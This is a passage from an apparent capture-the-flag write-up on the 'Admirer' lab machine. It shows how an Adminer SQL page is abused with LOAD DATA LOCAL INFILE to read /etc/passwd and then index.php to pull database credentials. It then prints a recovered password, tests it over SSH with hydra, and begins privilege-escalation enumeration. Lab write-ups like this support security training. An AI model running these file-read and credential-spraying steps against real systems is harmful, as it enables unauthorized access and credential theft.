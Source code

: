 Next click on the "SQL command" link on the left side, and enter the following:

```mysql
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE derp.data
FIELDS TERMINATED BY "\n"
```

Then run. But we get an error?

```
Error in query (2000): open_basedir restriction in effect. Unable to open file
```

Apparently the php settings have been locked down to prevent reading outside the web directory.

- https://www.php.net/manual/en/ini.core.php#ini.open-basedir

Good news is, we still have access to the web directory, and the `index.php` file should have the database credentials. Change the SQL command to the following:

```mysql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE derp.data
FIELDS TERMINATED BY "\n"
```

And it works! Navigate to the `derp` database, click on the `data` table link, then click on `Select data` to view results.

![](img/adminer-db-creds.png)

So we have a new password for waldo: `&<h5b~yK3F#{PaPB&dA}{H>`. Add that to the list of passwords. Might as well check if that works for ssh while we see if we can use the creds for code execution in the database.

```sh
❯ hydra -V -f -L scans/users.txt -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh://10.10.10.187
# [22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
# SUCCESS!
```

How convenient! SSH in...

# PrivEsc

Start with basic enumeration:

```sh
id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)

uname -a
Linux admirer 4.9.0-12-amd64 #1 SMP Debian 4.9.210-1 (2020-01-20) x86_64 GNU/Linux

hostname
admirer

ip a
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:9c:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.187/24 brd 10.10.10.255 scope global eth0
```